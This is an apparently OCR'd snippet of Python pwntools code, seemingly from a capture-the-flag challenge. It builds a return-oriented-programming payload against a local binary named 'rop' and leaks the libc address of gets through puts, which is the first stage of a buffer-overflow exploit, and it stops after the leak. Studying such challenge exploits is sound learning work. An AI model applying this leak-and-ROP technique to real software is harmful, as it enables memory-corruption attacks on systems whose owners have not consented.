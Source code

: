 ```python
def leakGets():
	binary = context.binary = ELF('./rop', checksec=False)
	
	# 0x00000000004006b3 : pop rdi ; ret
	popRDI = p64(0x004006b3)
	retGdgt = p64(0x004004a9)
	
	pltPuts = p64(binary.plt.puts)		# Address to call
	gotGets = p64(binary.got.gets)


	pld = cyclic(40)
	pld += retGdgt + popRDI + gotGets + pltPuts
	return pld

def leaky(p):
	p.recvuntil("tools..")
	p.sendline(leakGets())
	p.recvline()
	addr = p.recvline()
	log.info(addr)
	leak = u64(addr.ljust(8, b'\x00'))
	leak -= 0xa000000000000
	log.info("Gets leak - " + hex(leak))
```